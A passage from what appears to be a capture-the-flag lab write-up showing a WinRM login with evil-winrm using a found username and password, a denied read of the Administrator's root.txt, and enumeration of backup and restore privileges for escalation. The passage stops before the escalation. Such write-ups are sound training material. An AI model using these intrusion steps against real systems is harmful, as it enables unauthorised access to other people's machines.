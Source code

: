 ## Privilege Escalation to Local Administrator

Since we already knew that the WinRM port is open on the remote machine, we can check if we can log in using WinRM to execute commands.

*The presence of WinRM on a machine allows for straightforward remote administration via PowerShell, similar to how SSH works on other operating systems.* 

A successful login using WinRM:

```bash
> evil-winrm -i 10.10.66.123 -u "Caroline.Robinson" -p "Password123"     
                                      
Evil-WinRM shell v3.6
                                      
Warning: Remote path completions is disabled due to a Ruby limitation: quoting_detection_proc() function is unimplemented on this machine                   
                                      
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                     
                                      
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> 
```

Navigated to the Administrator's Desktop to find `root.txt`, but access to it was denied:

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
At line:1 char:1
+ type root.txt
+ ~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Checking the user's privileges for any interesting ones:

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
